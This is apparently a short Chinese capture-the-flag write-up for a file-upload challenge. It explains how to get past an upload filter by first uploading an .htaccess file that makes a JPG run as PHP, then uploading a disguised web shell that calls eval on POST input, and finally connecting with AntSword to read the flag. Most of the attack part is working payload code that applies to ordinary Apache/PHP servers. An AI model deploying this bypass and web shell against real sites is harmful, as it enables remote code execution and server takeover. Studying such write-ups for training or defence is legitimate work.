 #文件上传

这道题的上传限制也就是上传的文件后缀不允许出现 ph、Content-Type=image/jpeg、文件内容中也不允许出现 `<?`

上传.htaccess 配置文件，允许服务器把 123.jpg 文件解析为 php

```htaccess
<FilesMatch "123.jpg">
setHandler application/x-httpd-php
</FilesMatch>
```

上传一个图片马就 123.jpg

```html
<script language="php">
  @eval($_POST['shell']);
</script>
```

之后访问文件，蚁剑连接，flag 在根目录
